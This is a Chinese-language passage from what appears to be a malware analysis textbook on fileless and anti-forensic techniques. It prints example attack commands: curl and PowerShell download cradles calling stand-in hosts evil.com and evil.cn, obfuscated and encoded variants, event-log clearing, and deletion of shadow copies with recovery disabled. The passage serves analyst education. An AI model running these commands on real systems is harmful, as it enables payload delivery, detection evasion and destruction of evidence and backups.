| curl | cmd.exe /c curl -o output _file https://evil.com/evil.gif | 传输数据。恶意软件可能会用它来下载附加载荷并将其写入文件，或将数据外泄到远程 Web 服务器。 |
| del | cmd.exe /c del C:\Users\David\Temp\RegScvs.exe | 删除文件。恶意软件可能会用它删除证据，如可执行文件和临时文件，从受害者的系统中。 |
| ipconfig.exe | cmd.exe /c ipconfig.exe | 显示网络配置设置。恶意软件可能会调用它来获取受害者的本地 IP 地址或其他网络信息。 |
| ping | cmd.exe /c ping 8.8.8.8 | 向远程服务器发送 Ping 请求。恶意软件可能会利用它来检查受害者是否连接到互联网（例如作为沙箱检测技术），或者与其 C2 服务器进行初步联系。 |
| sc | cmd.exe /c sc query | 启动、停止、创建、修改或查询系统中的服务，具体取决于相应的选项（例如此处显示的 query）。 |
| taskkill.exe | cmd.exe /c taskkill.exe /f /IM evil.exe | 终止进程。恶意软件可能会调用此命令来杀死其自身的进程或分析工具和终端防御。 |
| timeout.exe | cmd.exe /c timeout /t 120 nobreak>nul | 在批处理脚本中暂停执行。恶意软件可能会执行它，尝试使“愚笨”的恶意软件分析沙箱超时。 |

虽然这一部分只是简单地介绍了 Windows 命令行的表面，但这些是恶意软件滥用 Windows 操作系统各种实用工具和命令的几种方式。由于 *cmd.exe* 是合法的 Windows 二进制文件，其中一些操作可能会被终端防御系统和分析人员忽视，因此了解这些技术非常重要。

#### PowerShell

利用 PowerShell 是现代威胁中最常见的“借用土地”技术之一。*PowerShell* 是内建于 Windows 中的框架，合法的系统用户和恶意软件都可以使用它来执行几乎任何 Windows 管理或配置任务。PowerShell 提供了许多命令，称为 *cmdlets*，这些命令赋予了该框架强大的功能（玩笑的意思）。PowerShell 构建于 .NET 平台之上，为 Windows 开发人员提供了许多库来构建新应用程序。PowerShell 可以通过命令行交互式运行，但在恶意软件的上下文中，它通常通过 Windows API 执行自动化脚本或单行命令（例如使用 CreateProcess）。

##### 实现支架

PowerShell 在恶意软件中的一个最常见应用是 *启动器*，它是一个命令（通常是单行命令），用于从暂存服务器下载附加的恶意软件或模块，有时还会直接执行这些文件。以下是恶意软件可能实现启动器的一种方式：

```
C:\> powershell.exe Invoke-WebRequest "http://evil.cn/zzl2.cab" -OutFile
"$ENV:UserProfile\crypt.dll"
```

让我们来分析这个 PowerShell 命令。首先，它利用了 Invoke-WebRequest cmdlet，它向远程 Web 服务器发送 HTTP 或 HTTPS 请求。这个 cmdlet 接受作为输入的 Web 服务器地址和将要下载的文件的目录路径（*zzl2.cab*）。最后，-OutFile 标志表示保存文件的目录路径和文件名。这个恶意的 *zzl2.cab* 文件将被保存在用户的个人资料目录中（由环境变量 $ENV:UserProfile 指示），文件名为 *crypt.dll*。由于 PowerShell 基于 .NET，它可以直接访问并利用许多 .NET 方法和类：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('http://www.evil.cn/bad.ps1')"
```

在这个命令中，-exec 标志告诉 PowerShell 绕过任何会阻止命令执行的执行策略。PowerShell 执行策略在 Windows 中配置，以防止某些 PowerShell 操作，但有时可以相当容易地绕过。IEX 是 Invoke-Expression 的缩写，它将执行前面的字符串作为命令。命令的下一部分，(New-Object Net.WebClient).DownloadString 表达式，创建了一个新的 .NET WebClient 对象，并使用 DownloadString 方法，这是恶意软件向远程 Web 服务器发送 Web 请求并下载有效负载的另一种方式。该有效负载将从 *http://<wbr>www<wbr>.evil<wbr>.cn* 下载，并直接在内存中执行。如果你有兴趣了解更多关于 PowerShell 启动器的信息，请查看 [*https://<wbr>gist<wbr>.github<wbr>.com<wbr>/mgeeky<wbr>/3b11169ab77a7de354f4111aa2f0df38*](https://gist.github.com/mgeeky/3b11169ab77a7de354f4111aa2f0df38) 和 [*https://<wbr>gist<wbr>.github<wbr>.com<wbr>/HarmJ0y<wbr>/bb48307ffa663256e239*](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)。

这些 PowerShell 启动器的问题在于它们很容易被识别为可疑的，因此我们来看看 PowerShell 命令如何被混淆，以绕过端点防御并阻碍调查。

##### 混淆 PowerShell

PowerShell 对语法的容忍度非常高，这意味着威胁行为者有很多空间来混淆命令、重新排列命令中的字符，甚至插入不必要的字符来混淆分析人员和检测工具。正如你将看到的，恶意软件作者有一些常见的方式来混淆 PowerShell 执行。让我们以这个命令作为起点：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('http://www.evil.cn/bad.ps1')"
```

一种简单的混淆方法是将 + 字符插入到命令中，如下所示：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('ht' + 'tp://'+'www.ev’+’il.cn/b’+’ad.ps1')"
```

字符可以是大写或小写，因此以下命令仍然是有效的 PowerShell 命令：

```
C:\> powershell.exe - EXeC bYpaSS -C "Iex(New-OBJect NeT.webclient)
.dOwNLOadStrINg('ht' + 'tp://'+'www.ev’+’il.cn/b’+’ad.ps1')"
```

然而，这样的话就有点难以阅读了。

字符也可以重新排序，如下所示：

```
"{2}{1}{0}" -f 'X','E','I'
```

括号中的数字表示字符 X、E 和 I 在重新排序后的位置，因此这些字符本质上构成了 IEX。

最后，PowerShell 允许 Base64 编码的数据，因此完全有可能发出像这样的编码命令：

```
C:\> powershell.exe -EncodedCommand "cG93ZXJzaGVsbC5leGUg4oCTIGV4ZWMgYnlwYXNzIOKAk0Mg4oCcSUVYKE
5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmco4oCZaHR0cDovL3d3dy5ldmlsLmNuL2JhZC5wczHig
Jkp4oCd"
```

我们将在第十六章中讨论 Base64 编码。目前，我们将转向恶意软件可以利用的与 PowerShell 相关的最后一个功能。

##### 查询 WMI

正如你从前几章中可能记得的那样，*Windows 管理工具 (WMI)* 允许系统管理员在 Windows 中管理数据和自动化操作。在 Windows 7 及更早版本中，*Windows 管理工具控制台 (WMIC)* 被用来调用 WMI，但在现代版本中，这已经被弃用。现在更常见的做法是使用 PowerShell 来调用 WMI，它具有几个内置的组件 cmdlet 用于与 WMI 交互。一个例子是 Get-CimInstance，这是一个恶意软件也可以用来查询 WMI 对象的 cmdlet。为了收集系统信息，例如它是否是虚拟机或沙盒，恶意软件可以直接从 PowerShell 执行以下命令：

```
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_Processor"
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_BIOS"
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_DiskDrive"
```

这些命令查询 WMI 以获取系统的处理器、BIOS 和硬盘驱动器信息。在以下输出中，你可以从我的 BIOS 信息看到我正在运行 VirtualBox：

```
PS C:\> Get-CimInstance -Query "SELECT * FROM_Win32_BIOS"

**SMBIOSBIOSVersion : VirtualBox**
Manufacturer      : innotek GmbH
Name              : Default System BIOS
SerialNumber      : 0
**Version           : VBOX - 1**
`--snip--`
```

其他有趣的查询对象是 ThermalZoneTemperature 和 Win32_Fan，它们分别返回当前 CPU 温度和风扇转速：

```
PS C:\> Get-CimInstance -Query "SELECT * FROM MSAcpi_ThermalZoneTemperature"

PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_Fan"
```

如果这些功能返回错误或没有返回任何信息，这可能意味着它们未被实现，表示主机可能是虚拟机。

WMI 是一个广泛的主题，恶意软件可能通过其他方式调用它（例如直接使用 WMI 接口，如 IwbemServices.ExecQuery），但这些超出本书的范围，不再详述。相反，我们将继续讨论另一种生存之道和无文件技术：动态编译代码。

#### 动态编译的代码

*动态编译的恶意代码* 在恶意软件中的使用正在增加。传送到受害者后，该代码会在内存中编译并执行，这可能有助于攻击规避端点防御的监测。这种技术通常伴随着使用一个分发器组件。分发器可能会传送给受害者（例如，嵌入在电子邮件中），一旦在受害者系统上执行，它就会从互联网上的服务器下载恶意代码。这种恶意代码通常是加密或混淆的。一旦有效载荷成功下载到受害主机，它就会被现有编译器在受害系统上的内存中解密并编译。现代版本的 Windows 默认包括几个编译器，其中包括.NET 编译器 *msbuild.exe* 和 *csc.exe*。图 15-5 展示了这种技术在实际中的样子。



图 15-5：涉及动态编译代码的攻击

此攻击始于一个 PowerShell cradle，从远程服务器下载未编译的.NET 代码，可能使用本章前述的方法之一。然后，PowerShell 脚本调用 *csc.exe* 在内存中编译和执行.NET 代码。

另一个编译器是 *msbuild.exe*。微软构建引擎（*Msbuild*）是一个“用于构建 Windows 应用程序的平台”，接受项目（*.proj*）或基于 XML 的项目文件作为输入，编译它们，并在构建时执行。我不会详细讨论这种技术，但你可以在 Tara Gould 和 Gage Mele 的文章“威胁行为者使用 MSBuild 无文件交付 RATs”中阅读更多内容，网址为[*https://<wbr>www<wbr>.anomali<wbr>.com<wbr>/blog<wbr>/threat<wbr>-actors<wbr>-use<wbr>-msbuild<wbr>-to<wbr>-deliver<wbr>-rats<wbr>-filelessly*](https://www.anomali.com/blog/threat-actors-use-msbuild-to-deliver-rats-filelessly)。

这些技巧特别有趣，因为它们利用了多种防御规避方法。首先，这些攻击几乎可以完全无文件，因为下载的代码只在内存中编译和执行。其次，它们使用受害主机上已经存在的 LOLBin 和编译器，可能绕过了如 AppLocker 等防控措施。最后，当恶意代码从攻击者的服务器下载时，它是以未编译的状态进行下载的，因此网络防御可能无法将其识别为恶意代码，因为网络防御通常会寻找已编译的二进制文件。这些是恶意软件作者绕过和规避防御的众多创意方式中的更多例子。

请注意，Windows 中还有其他动态代码编译方法，例如使用 CGG/MinGW C 编译器或*aspnet_compiler.exe*编译 ASP.NET 代码。这些编译器可以通过 PowerShell、命令提示符，甚至通过 VBA 宏代码在 Office 文档中调用。

在本章的最后部分，我们将探讨一类规避技术，称为反取证，这类技术通常与无文件攻击一起出现。

### 反取证

想象一下，你是最近被指派到一起复杂的数据盗窃案件的调查员。受害组织确定事件发生在一台 Windows 服务器上，并通过将该服务器与其他网络隔离来遏制了攻击，但攻击者在此之前已经窃取了不明数量的潜在敏感数据。最奇怪的是，似乎在被入侵的服务器上没有留下任何蛛丝马迹。没有足迹可循。现场没有留下指纹或污迹。所有恶意软件的物理痕迹都已从硬盘中删除。系统已重新启动，内存中也没有可以调查的痕迹。硬盘上的某些文件甚至似乎已被加密，但没有提出赎金要求。

你可能正在见证反取证的实际应用。让我们来看看一些恶意软件作者使用的创意反取证技巧。

#### 隐藏痕迹和代码

网络攻击无论攻击者多么技艺高超或富有创意，总会在被入侵的系统或网络上留下某些痕迹证据。知道这一点后，恶意软件可能会竭尽全力掩盖其踪迹，尽可能地移除所有取证证据。这通常涉及隐藏或删除可能揭露攻击的痕迹，防止从被感染的系统上获取信息。

恶意软件可以通过隐藏重要文件和目录（例如其可执行文件或配置文件）来模糊证据的一种粗略方式。为此，恶意软件首先会调用像 SetFileAttributes 这样的函数来处理相关文件，然后使用 Windows 原生功能将 hidden 属性应用于这些文件。这将使文件对一些系统用户不可见，但更有经验的用户和调查员将能够轻松绕过这种方法。

##### 移除和破坏痕迹

与单纯隐藏文件不同，一些恶意软件试图完全删除或销毁证据。它可以通过多种方式删除自己的文件，例如调用 DeleteFile WinAPI 函数，或使用 PowerShell 或 Windows 命令行。 然而，根据删除的方法，经验丰富的调查员仍然可能能够恢复被删除的痕迹。为了解决这一问题，一些恶意软件已经集成了专门用于安全且不可恢复的数据销毁的工具。Unit42 的研究人员报告称，BlackCat 勒索软件背后的威胁行为者使用了 fileshredder 工具，这是一种专为不可恢复删除文件而设计的工具，用于安全地删除受害系统中的证据（请参阅 Amanda Tanner、Alex Hinchliffe 和 Doel Santos 撰写的《威胁评估：BlackCat 勒索软件》，链接见 [*https://<wbr>unit42<wbr>.paloaltonetworks<wbr>.com<wbr>/blackcat<wbr>-ransomware<wbr>/*](https://unit42.paloaltonetworks.com/blackcat-ransomware/)）。

此外，由于内存是经验丰富的调查员寻找恶意软件的首选地方之一，因此恶意软件作者通常会清除其分配的内存。实现这一点的方法有很多种，例如调用 RtlZeroMemory 函数，该函数会将内存区域用零覆盖，从而有效地销毁该区域内的任何证据。一些勒索软件家族甚至会调用 RtlZeroMemory 和类似函数来将其加密密钥在内存中清零，以减少密钥恢复的可能性。

攻击者可以通过修改内存来移除或更改代码或数据，从而隐藏恶意软件的存在，而不是完全擦除内存。例如，恶意软件可以简单地从内存区域中移除 PE 魔法字节 MZ，使得一些依赖于该签名的调查工具失效。或者，它还可以将其代码或配置的部分内容隐藏在内存中，例如通过编码或加密命令和控制地址等字符串。我们将在第十六章中讨论代码和数据混淆与加密，但许多适用于该章节的技术也可以作为反取证措施。

##### 滥用替代数据流

隐藏文件的另一种方法是使用 NTFS 替代数据流（ADS）。在 Microsoft NTFS 文件系统中，文件中包含的数据通常位于*主数据流*中。例如，如果你在文本编辑器中打开一个文本文件，显示的数据就是主数据流的一部分。但数据也可以隐藏在 ADS 中，在这种情况下，当调查人员检查文件时，数据并不容易显现。

说明 NTFS ADS 最好的方式是通过一个示例。你可以自己尝试一下。首先，创建一个包含虚拟文本的文本文件，并将文件保存为 *file.txt*。要在该文件中隐藏数据，请运行以下命令：

```
C:\> **echo hidden text > file.txt:supersecret**
```

这个命令将文本 hidden text 保存在 NTFS ADS supersecret 中。运行此命令后，如果你在文本编辑器中打开 *file.txt*，你将看不到隐藏的文本。为了证明隐藏文本依然存在，运行以下命令打印出文本文件中包含的主数据：

```
C:\> **more < file.txt**
```

然后，像这样打印出 supersecret ADS 中的文本：

```
C:\> **more < file.txt:supersecret**
```

第二个命令的输出应该是 ADS 中包含的数据。更实际地说，恶意软件可以通过类似的方式将代码或文件（如可执行文件）隐藏在 ADS 中。例如，以下命令将恶意可执行文件 *evil.exe* 写入文件 *invoice.doc* 的数据流 evil 中：

```
C:\> **more evil.exe > invoice.doc:evil**
```

使用这个命令，我将一个约 760KB 的可执行文件写入了文件*invoice.doc*，如图 15-6 所示。



图 15-6：将可执行文件隐藏在 ADS 中

查看文档文件的元数据，显示文件大小为 12KB（主数据流），但“磁盘上的大小”值为 776KB（在我将可执行文件复制到其 ADS 后文件的总大小）。

在十六进制编辑器或 PE 查看器中查看此文件时，没有发现异常。存储在 evil 数据流中的数据对于大多数文件编辑器和调查工具来说是不可见的，除非调查人员知道该查找的内容。Streams（来自 sysinternals 套件）是一个很好的工具，用于识别 ADS 异常。

使用 NTFS ADS 仅仅是隐藏恶意文件和代码以避免调查的一个机制。另一种策略是将代码隐藏在 CLFS 日志子系统中，正如 Mandiant 的研究人员所展示的那样（参见 Adrien Bataille 和 Blaine Stancill 的文章《Too Log; Didn’t Read—Unknown Actor Using CLFS Log Files for Stealth》，链接：[*https://<wbr>www<wbr>.mandiant<wbr>.com<wbr>/resources<wbr>/blog<wbr>/unknown<wbr>-actor<wbr>-using<wbr>-clfs<wbr>-log<wbr>-files<wbr>-for<wbr>-stealth*](https://www.mandiant.com/resources/blog/unknown-actor-using-clfs-log-files-for-stealth)）。这些技术可以有效地隐藏证据，避免细致的用户检查，并增加事件响应和取证调查的时间与难度，这对于恶意软件作者来说是非常有利的。

##### 使用隐写术隐藏数据

*隐写术*是一种将数据隐藏在普通文件格式中的技术，例如图像、视频和音频文件。现代的回避性恶意软件可能会使用隐写术来绕过端点和网络防御，因为它能有效地将恶意代码隐藏或混淆在看似无害的文件中，但这一技术也非常符合反取证的范畴。

使用隐写术技术的早期恶意软件示例包括 2011 年的 Duqu 恶意软件家族，它从受害系统收集信息并将其存储在 JPEG 图像文件中，以及 2014 年的 Zeus 银行木马，它将 C2 命令隐藏在发送给受害者的图像中。一个较新的例子是 ESET 研究人员发现的攻击，名为“Stegano”，其在多个网站的图像中嵌入了利用代码。由于代码隐藏在图像数据中，网络防御可能未能发现恶意代码（参见 Daniel Goodin 的文章《数百万用户暴露于恶意广告，其中隐藏了攻击代码》：[*https://<wbr>arstechnica<wbr>.com<wbr>/information<wbr>-technology<wbr>/2016<wbr>/12<wbr>/millions<wbr>-exposed<wbr>-to<wbr>-malvertising<wbr>-that<wbr>-hid<wbr>-attack<wbr>-code<wbr>-in<wbr>-banner<wbr>-pixels<wbr>/*](https://arstechnica.com/information-technology/2016/12/millions-exposed-to-malvertising-that-hid-attack-code-in-banner-pixels/))。

恶意软件可能出于多种原因利用隐写术，比如隐藏数据和恶意代码以避免调查，混淆传输中的 C2 命令，或者掩盖将从受害者网络中泄露的数据。有几种方式可以做到这一点，包括文件附加和位操作。*文件附加*，顾名思义，就是将一个文件附加到另一个文件的末尾，类似于搭便车的方式。例如，如果我正在调查一个我怀疑已被篡改的 JPEG 文件，我可能会在十六进制编辑器中检查该文件的头部（参见图 15-7）。


图 15-7：JPEG 文件头

此文件头是 JPEG 文件类型的标准头（图中为 JFIF）。进一步分析文件数据揭示了图 15-8 中所示的异常。


图 15-8：隐藏在 JPEG 文件中的文件头

注意此图中的 PK。这是 ZIP 归档文件的标准头，表明一个 ZIP 文件可能已经被附加到 JPEG 图像中！为了提取此文件并检查其内容，我们可以采取几种方法。首先，我们可以使用十六进制编辑器从此图像文件中“雕刻”出嵌入的 ZIP 文件。这只涉及从文件中复制可疑数据，并将其转储到一个新文件中。另一种更简单的方法是使用免费的 Binwalk 工具（[*https://<wbr>github<wbr>.com<wbr>/ReFirmLabs<wbr>/binwalk*](https://github.com/ReFirmLabs/binwalk)）。Binwalk 会“遍历”输入文件，搜索其他嵌入文件的迹象，并能自动提取这些文件。图 15-9 展示了使用 Binwalk 从 JPEG 图像中嵌入的 ZIP 容器中提取隐藏的可执行文件（*surprise.exe*）。



图 15-9：使用 Binwalk 提取嵌入文件

> 注意

*你可以在 MalShare 或 VirusTotal 上通过以下哈希值找到此恶意软件样本：*

> SHA256: 0cfcf571748f0d0c3bcedead2508f0bec329558c29017e7093a138853cc0e17e

这是一个相对简单的隐写术示例。然而，现代攻击通常使用更复杂的技术，如 *位操作*，通过重新排列或修改位来规避检测。例如，图像文件中的单独位可以被操作，用以隐蔽地存储恶意代码，而不影响图像的质量。图 15-10 展示了在十六进制编辑器中查看的未修改图像文件的数据摘录。


图 15-10：未修改图像的十六进制转储

然而，如图 图 15-11 所示，该图像已经被威胁行为者巧妙地修改。



图 15-11：已修改图像的十六进制转储

每行的最后（第 16 个）字节已被修改。如果恶意软件样本加载该图像文件进行读取（例如，使用 ReadFile），它可以特别提取图像文件中的这些可疑字节，正如以下伪代码所示：

```
`--snip--`
call ReadFile          ; Open manipulated image file.
`--snip--`
mov edx, [esp+file+16] ; Move the first 16th byte into EDX.
mov [ebx+data], edx    ; Store the byte in memory.
xor edx, edx           ; Clear EDX.
mov edx, [esp+file+36] ; Move the second 16th byte into EDX.
mov [ebx+data+2], edx  ; Store the second byte in memory.
`--snip--`
```

一旦所有字节被存储在内存中，它们将组成字节串 "89 E9 8D 55 05 FF D0"。将这个字节串转换为 x86 代码会显示出以下汇编代码，这可能是某种 shellcode：

```
mov   ecx, ebp
lea   edx, [ebp + 0x5]
call  eax
```

最后，*最低有效位（LSB）* 技术涉及篡改文件中的特定位。为了说明这种隐写技术，假设一个图像文件包含以下 8 个字节，每个字节代表图像中的一个像素：

```
11101101 11000110 10100111 10010110
10111001 10011001 10001100 11000110
```

在某些图像编码格式中，如位图（BMP），最低有效位（LSB），即每个字节中的最后一位，可以在不显著影响图像的情况下进行修改。因此，如果攻击者想要在图像中隐藏恶意代码，他们可以篡改最低有效位并形成一个新的比特串。假设攻击者修改了几个特定的最低有效位（以粗体显示）：

```
1110110**0** 1100011**0** 1010011**0** 1001011**1**
1011100**1** 1001100**0** 1000110**0** 1100011**1**
```

如果我们将所有的最低有效位（LSBs）合并成一个新的字节，就会得到如下结果：

```
00011001
```

这个字节本身对我们并没有太大意义。然而，如果攻击者能够修改图像中的大量最低有效位（LSBs），他们就可以有效地在图像中隐藏恶意代码或数据。恶意软件可以将其恶意代码或配置的片段存储在图像内，利用最低有效位作为临时存储。

最后值得注意的是，许多开源和公开可用的工具包，如 Steghide（[*https://<wbr>steghide<wbr>.sourceforge<wbr>.net<wbr>/documentation<wbr>.php*](https://steghide.sourceforge.net/documentation.php)），可以轻松实现隐写技术。值得深入了解这些工具，以更好地理解隐写术的工作原理以及恶意软件作者如何利用它隐藏恶意代码和数据。

#### 篡改日志和证据

在调查过程中，日志和其他元数据可以作为有价值的证据，证明特定的恶意事件是否发生过，因此篡改或删除它们将妨碍检测、响应和分析过程。因此，日志及相关元数据可能成为逃避性恶意软件的主要目标，恶意软件试图隐藏其活动，以避免被调查人员发现。在本节中，我们将介绍两种篡改技术：日志篡改和时间戳篡改。

##### Windows 事件日志篡改

*日志篡改* 涉及修改或删除主机上的日志条目，这些条目可能暴露恶意软件的存在。攻击者可能篡改的一种日志来源是 *Windows 事件日志*，它包含有关各种 Windows 和应用程序事件的信息，因此是调查人员的宝贵数据来源。图 15-12 显示了 Windows 事件查看器，这是一个内置的 Windows 工具，用于浏览事件日志。



图 15-12：在 Windows 事件查看器中查看系统事件日志

Windows 事件日志具有包含以下信息的共同结构：

+   一个 *事件 ID*，表示发生的事件类型

+   一个表示事件日期和时间的 *时间戳*

+   事件的 *来源*，例如触发该事件的具体软件或组件

+   事件的 *描述*

此外，每个事件都被分配一个级别：

+   *信息*，用于传达一般信息，如安装或卸载软件包的相关信息

+   *警告*，用于指示可能表明应当解决的问题的事件

+   *错误*，用于表示应用程序崩溃等事件

+   *严重*，用于表示对系统功能有害的事件

Windows 可以捕捉多种不同的事件类型。三种最常见的日志类型是 *系统* 日志（记录与系统及其组件相关的事件）、*应用程序* 日志（记录与 Windows 和第三方应用程序及服务相关的事件）和 *安全* 日志（记录与安全相关的事件，如身份验证）。显然，安全分析师和调查人员应特别关注某些事件类型，因为它们可能提供有关系统如何被攻击或恶意软件在系统上采取了哪些行动的线索。表 15-3 列出了这些事件中的一小部分。

表 15-3： 安全分析师和调查人员关心的事件类型

| Windows 事件 ID | 描述 |
| --- | --- |
| 4624 | 账户成功地进行了身份验证（登录）到 Windows。日志记录了重要信息，如账户的用户名和源 IP 地址。 |
| 4625 | 发生了失败的登录尝试。 |
| 4688 | 启动了一个进程。日志记录了诸如进程名称以及哪个账户启动了该进程等详细信息。 |
| 4689 | 终止了一个进程。 |
| 4698 | 创建了一个计划任务。 |
| 4703 | 为账户启用或禁用了令牌权限。调查人员可以利用此信息来识别潜在的特权提升和冒充尝试。 |
| 4946 | 添加了一个 Windows 防火墙规则。 |
| 5140 | 访问了网络共享。日志记录了用户的账户信息、IP 地址以及用户请求的访问权限类型（例如读取或写入）。 |
| 7045 | 系统上安装了一个服务。日志记录了如服务名称和图像路径（例如其磁盘上的可执行文件）等信息。 |

由于这些事件的日志对取证调查人员来说非常有价值，因此清除或篡改这些事件日志对于恶意软件作者来说也具有价值。

篡改日志的最简单方法之一就是直接删除或清除它们。为了清除这些事件日志，恶意软件可以调用 Windows 工具 Wevtutil。以下命令分别将清除受害系统上的系统、应用程序和安全事件日志：

```
C:\> wevtutil cl system
C:\> wevtutil cl application
C:\> wevtutil cl security
```

或者，恶意软件可以使用 PowerShell 命令，例如以下命令：

```
PS C:\> Remove-EventLog -LogName Security
```

该命令清除所有 Windows 安全事件日志。

恶意软件甚至可以在攻击期间通过调用 PowerShell 停止 Windows 事件日志服务，完全禁用事件日志，如下所示：

```
PS C:\> Stop-Service -Name EventLog -Force
```

请记住，删除日志文件或停止日志记录可能会引起很大的注意，尤其是当受害组织特别监控日志篡改技术时。另一种方法是手动写入新的 Windows 事件日志，以迷惑调查人员。例如，通过为虚构的登录事件或删除或创建虚拟文件创建事件，恶意软件作者可以制造“烟雾弹”场景。他们可以通过 PowerShell cmdlet Write-EventLog 来实现这一点：

```
PS C:\> Write-EventLog -LogName $eventLog -Source $eventSource -EventId
$eventId -EntryType Information -Message $eventMessage
```

Windows 事件存储为 *.evtx* 文件，位于 *C:\Windows\System32\winevt\Logs* 目录下。你可以在以下输出中看到示例目录列表：

```
C:\Users>dir C:\Windows\System32\winevt\Logs

`--snip--`
07/27/2023 04:15 AM  3,215,360 Application.evtx
07/27/2023 02:14 PM  4,096 DebugChannel.etl
08/14/2020 10:18 AM  69,632 HardwareEvents.evtx
08/14/2020 10:18 AM  69,632 Internet Explorer.evtx
08/14/2020 10:18 AM  69,632 Key Management Service.evtx
`--snip--`
```

输出中的每个 *.evtx* 文件表示一种特定类型的日志事件，例如应用程序事件、硬件事件和 Internet Explorer 事件。你可能会在恶意软件的代码中发现它特别引用了此目录位置。这可能是一个明显的迹象，表明恶意软件正在尝试篡改这些文件，例如以下代码：

```
`--snip--`
mov edx,0x1
❶ mov ecx, "C:\Windows\System32\winevt\Logs"
push eax
❷ call encrypt_data
`--snip--`
```

该恶意代码引用了路径 *C:\Windows\System32\winevt\Logs* ❶，然后调用一个加密此数据的函数（我命名为 encrypt_data） ❷，从而有效地销毁这些文件。

此外，恶意软件可能能够直接修改*.evtx*文件以隐藏恶意活动。这是一个精细的过程，涉及关闭事件日志服务、篡改事件文件并重新计算作为完整性检查的一种校验和。此技术超出了本书的范围，但你可以在*Medium*博客文章“事件日志篡改 第二部分：操作单个事件日志”中了解更多内容，文章地址是 [*https://<wbr>svch0st<wbr>.medium<wbr>.com<wbr>/event<wbr>-log<wbr>-tampering<wbr>-part<wbr>-2<wbr>-manipulating<wbr>-individual<wbr>-event<wbr>-logs<wbr>-3de37f7e3a85*](https://svch0st.medium.com/event-log-tampering-part-2-manipulating-individual-event-logs-3de37f7e3a85)。

> 注意

*在我写这本书的时候，卡巴斯基报告了一种恶意软件变种，它将恶意代码写入 Windows 事件日志，并直接从日志中执行内存中的代码。这种技术将事件日志篡改技术与内存驻留技术相结合。你可以在 Denis Legezo 的博客文章“‘无文件’恶意软件的新秘密藏匿处”中了解更多内容，文章地址是* [`securelist.com/a-new-secret-stash-for-fileless-malware/106393/`](https://securelist.com/a-new-secret-stash-for-fileless-malware/106393/)。

##### 时间戳篡改

*时间戳篡改*是一种通过修改文件时间戳来误导取证调查员的技术。在 NTFS（现代 Windows 版本的默认文件系统）中，时间戳以 64 位整数表示（更正式地称为*文件时间结构*），该整数表示自 1601 年 1 月 1 日 UTC 时间以来的 100 纳秒间隔数，或称为刻度。这听起来相当复杂，但重要的是要知道，当转换为人类可读格式时，这个整数代表一个特定的日期和时间。例如，时间戳整数 133346988430000000 可以转换为人类可读的字符串 2023 年 7 月 24 日 星期一 7:00:43 PM。在内部，Windows 使用 FileTimeToSystemTime 函数进行这种转换。NTFS 格式会跟踪文件和目录的时间戳，记录文件或目录何时被写入或以其他方式修改、访问（打开并读取）、创建（或复制、移动等），以及文件或目录的元数据何时发生变化。元数据可能包括文件或目录的名称、属性、权限及其他数据。你可以在这里了解更多关于文件时间结构格式的内容：[*https://<wbr>www<wbr>.ntfs<wbr>.com<wbr>/exfat<wbr>-time<wbr>-stamp<wbr>.htm*](https://www.ntfs.com/exfat-time-stamp.htm)。

为了修改这些文件时间戳，以误导调查人员，恶意软件可以使用专门为此用途设计的 WinAPI 函数：SetFileTime。SetFileTime 函数接受三个参数：文件创建时间（lpCreationTime）、最后访问时间（lpLastAccessTime）和最后修改时间（lpLastWriteTime）。恶意软件可以使用函数 SetFileInformationByHandle 和 NtSetInformationFile 以类似的方式篡改自身或其他文件和目录的时间戳。

在取证调查过程中，调查人员通常会创建一个所有文件系统事件的时间线。文件的时间戳元数据和日志通常是这些时间线的一部分。如果恶意软件采用了时间戳篡改和日志篡改技术，这个调查时间线将不准确，至少会导致调查过程延迟，最糟糕的情况是案件无法解决。对于那些必须在法庭上辩护的取证调查，后果可能特别严重。

#### 销毁系统

也许最永久且具有破坏性的隐藏证据技术是彻底销毁系统。你可能会想知道，攻击者为什么要销毁一个系统来掩盖证据，因为这无疑会引起受害者或组织对攻击的警觉。虽然这是真的，但它仍然是掩盖攻击证据最永久和最绝对的方法。如果系统被销毁，调查很有可能会停止。这也是避免追溯攻击来源的一种方式。

为了销毁攻击的证据，恶意软件可以加密整个磁盘和主引导记录（MBR），使系统无法启动，这类似于一些勒索软件的操作。这里的主要区别是攻击者会销毁加密和解密密钥，因为这些密钥不再需要。或者，恶意软件可以用随机数据覆盖磁盘的某些部分，以实现类似的效果。

恶意软件还可以禁用本应允许调查人员恢复系统的工具，如 Windows 启动修复，或删除所有备份。这些是它可能作为破坏性攻击前奏运行的一些命令：

```
C:\> C:\Windows\System32\vssadmin.exe delete shadows /all /quiet
C:\> C:\Windows\System32\bcdedit.exe /set bootstatuspolicy ignoreallfailures
C:\> C:\Windows\System32\bcdedit.exe /set recoveryenabled No
```

第一个命令删除所有的卷影副本，卷影副本是 Windows 中的一种备份功能，可以恢复文件的副本。删除这些备份会阻止调查人员恢复存储为卷影副本的证据。第二个和第三个命令则防止 Windows 启动到恢复模式，这是调查人员或系统管理员有时用来恢复系统的一种方法。

完全摧毁系统仅仅为了反取证目的的情况比较少见。恶意软件更常见的做法是主要目的是摧毁系统和数据，从而导致服务中断，反取证只是次要目标。例如，恶意软件家族 Shamoon 删除了目标系统上的数据，作为副产品，这可能会妨碍调查工作。HermeticWiper（在第十四章中简要介绍）是另一个例子。

### 总结

在本章中，你了解了无文件攻击的原理以及恶意软件作者如何利用驻留在内存和注册表中的恶意软件达到目的，而不留下明显的证据。你还学会了威胁行为者如何滥用原生的、签名的 Windows 二进制文件（LOLBins）来隐秘地执行恶意代码，以绕过如 AppLocker 这样的安全控制，或支持无文件攻击。随后，我们深入探讨了隐藏证据的话题，探索了恶意软件使用的一些反取证技术，帮助其掩盖痕迹并进一步阻碍调查工作。在下一章中，我们将深入探讨恶意软件如何通过编码和加密来避开检测。
